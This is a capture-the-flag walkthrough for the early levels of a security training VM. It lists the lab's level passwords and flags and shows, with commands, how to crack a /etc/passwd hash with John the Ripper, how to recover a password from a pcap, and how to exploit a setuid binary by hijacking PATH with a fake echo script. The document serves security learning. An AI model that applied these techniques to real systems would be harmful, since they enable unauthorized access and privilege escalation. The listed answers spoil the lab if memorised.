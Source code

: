 ```b
flag00  nottoohardhere 
level01  x24ti5gi3x0ol2eh4esiuxias

flag01  abcdefg
level02  f2av5il02puano7naaf6adaaf

flag02  ft_waNDReL0L
level03  kooda2puivaav1idi4f57q8iq

level04  qi0maab88jeaj46qoumi7maus
```


# SSH

```b
$ ifconfig
$ ifconfig | grep inet
$ ifconfig | grep 'inet ' | awk 'NR==2'
$ ssh level00@$(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}') -p 4242
```

# 00

- to begin with

```b
$ ls -l
$ find / -user level00 
$ find / -user level00 2>/dev/null
$ find / -user flag00 2>/dev/null
$ find / -user flag00 -exec cat {} + 2>/dev/null\
cdiiddwpgswtgt
cdiiddwpgswtgt
```

- command explained
    - `/` - from root directory
    - `+` - forces `find` to run `cat` on many files at once and not one at a time
    - `2>/dev/null` - redir stderr output to `/dev/null`
- decipher ___`cdiiddwpgswtgt`___ in python

```py
a = ord('a')
for i in range(26):
    print(i, ''.join(chr(a + (ord(c) - a + i) % 26) for c in 'cdiiddwpgswtgt'))
```

# 00 - token

```b
> su flag00
Password: nottoohardhere
> su level01
> Password: x24ti5gi3x0ol2eh4esiuxias
```


# 01

- take a look at legacy folder `/etc/passwd`

```b
$ cat /etc/passwd
$ cat /etc/passwd | grep -i flag01 | awk -F: '{print $2}'


😀 if we have john we'll able to do:
$ john --show <(cat /etc/passwd | grep -i flag01 | awk -F: '{print $2}')
```

- use our own _`do_john`_ script

```b
$ chmod +x do_john.sh
$ ./do_john.sh
```

- or download and use _`john`_

```b
$ wget https://download.openwall.net/pub/projects/john/contrib/macosx/john-1.8.0.9-jumbo-macosx_sse4.zip
$ tar -xvf john-1.8.0.9-jumbo-macosx_sse4.zip
$ cd john-1.8.0.9-jumbo-macosx_sse4
$ echo 42hDRfypTqqnw > __test
$ ./john __test
$ ./john --show __test
```

# 01 - token

```b
> su flag01
Password: abcdefg
> su level02
> Password: f2av5il02puano7naaf6adaaf
```


# 02

- new stuff
  - `realpath` - get the full absolute filepath
  - `scp` - secure copy - `scp username@ip:path _local_`
  - `~.pcap` - a Packet Capture to store network packet data captured during network traffic monitoring

- save the `.pcap` to Host
```b
### VM
> ls -l
----r--r-- 1 flag02 level02 level02.pcap
^ which means a regular file

> scp -P 4242 level02@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}'):/home/user/level02/level02.pcap $(pwd)
```

- ❌ inspect the `.pcap`  

```b
### Host
> hexdump -C level02.pcap 
> xxd level02.pcap 
> xxd level02.pcap | grep -i pass -A10 -B10
> xxd level02.pcap | cut -d ' ' -f2-9 | tr -d ' '
```

- ✅ use _Wireshark_ 
  - _Analyze - Follow - TCP Stream_ 
  - copy _`TCP Stream`_ to text

```b
    000000D6  00 0d 0a 50 61 73 73 77  6f 72 64 3a 20            ...Passw ord: 
000000B9  66                                                 f
000000BA  74                                                 t
000000BB  5f                                                 _
000000BC  77                                                 w
000000BD  61                                                 a
000000BE  6e                                                 n
000000BF  64                                                 d
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  4e                                                 N
000000C5  44                                                 D
000000C6  52                                                 R
000000C7  65                                                 e
000000C8  6c                                                 l
000000C9  7f                                                 .
000000CA  4c                                                 L
000000CB  30                                                 0
000000CC  4c                                                 L
000000CD  0d                                                 .
```

- `7f` - DE
- `0d` - CR

```py
infile = [[n[-2], n[-1]] for n in [_.split() for _ in open(0).read().split('\n') if len(_.split()) == 3]]
res = ''
for i, line in enumerate(infile):
    print('line/', line, 'i/', i)
    x, c = line
    if x == '7f':
        res = res[:-1]
    elif c != '.':
        res += c
    else:
        assert(x == '0d')
print('res/', res)

# ft_waNDReL0L
```

# 02 - token

```b
> su flag02
Password: ft_waNDReL0L
> su level03
> Password: kooda2puivaav1idi4f57q8iq
```


# 03

- inspect
  - available actions - `file` `readelf` `strings` ：❌ `ltrace` ✅ 
```b
> ls -l
-rwsr-sr-x 1 flag03 level03 8627 level03
   ^  ^ setuid bit & setgid bit are set
  👉 when the binary is exec functions called inside it
  are called under same level of permission
```
```b
> ltrace ./level03
  👉 we can see the `s` bit in action

### output
getegid()                                           = 2003
geteuid()                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me" ...

### observations
  👉 getegid & geteuid return a effective group/user ID ie. 2003
  👉 setresgid & setresuid set Real/Effective/Saved ID to ensure
  that the process maintains privileges
  👉 `/usr/bin/env echo` uses a vulnerable relative path
  since ./level03 has high privileges,
  we can fake a false echo to run getflag inside ./level03
```
```b
> whereis getflag
getflag: /bin/getflag
```

- solution

```b
> echo -e "#\!/bin/bash\n/bin/getflag" > /tmp/echo
> chmod +x /tmp/echo
> export PATH=/tmp:$PATH
> ./level03
# qi0maab88jeaj46qoumi7maus
```

# 03 - token

```b
> su level04
> Password: qi0maab88jeaj46qoumi7maus
```

